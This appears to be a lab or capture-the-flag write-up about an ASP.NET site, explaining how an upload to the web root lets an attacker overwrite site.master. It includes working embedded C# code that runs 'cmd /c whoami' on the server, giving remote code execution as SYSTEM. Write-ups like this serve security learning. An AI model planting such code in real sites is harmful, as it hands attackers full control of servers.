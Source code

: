 ```
			<div id="header">Welcome to Butch Repository</div>
			<div id="main">
				<div id="content">
					<br />
					<asp:contentplaceholder id="ContentPlaceHolder1" runat="server"></asp:contentplaceholder>
					<br />
				</div>
			</div>
		</div>
	</body>
</html>
```
The official Microsoft documentation for site.master (https://docs.microsoft.com/en-us/previous-versions/wtxbf3hh(v=vs.140)?redirectedfrom=MSDN) indicates that this file provides a template for every page on an ASP.NET MVC-style application.

The file indicates that this webpage uses C# as a backend language, uses a site.master file as a template and often resides in the web root. This file can also contain arbitrary code, which is not mentioned in the Microsoft documentation. LEt's try to take advantage of that.

### RCE
Let's review what we have discovered. First, it seems that the site.master file resides in the web root. We also know that we can upload files to the web root. By extension, we we may be able to overwrite the site.master file with our own version, which could contain embedded code. If this overwrite is successful, we could reload the web page and our code may execute, giving us remote code execution.

We're ready to create a proof of concept exploit.

We'll begin by crafting a new site.master file. We'll include the existing contents from the original file and append arbitrary C# code which outputs the name of the user that is running the web application:
```
<%
string stdout = "";
string cmd = "whoami";
System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo("cmd", "/c " + cmd);
procStartInfo.RedirectStandardOutput = true;
procStartInfo.UseShellExecute = false;
procStartInfo.CreateNoWindow = true;
System.Diagnostics.Process p = new System.Diagnostics.Process();
p.StartInfo = procStartInfo;
p.Start();
stdout = p.StandardOutput.ReadToEnd();
Response.Write(stdout);
%>
```
adding this to the default 'site.master' file.

uploading this and refresh the page we can see the user that runs this RCE:
![[Pasted image 20240217225158.png]]
This indicates that the application is running as SYSTEM. Exploiting this application could give us full control of the server!
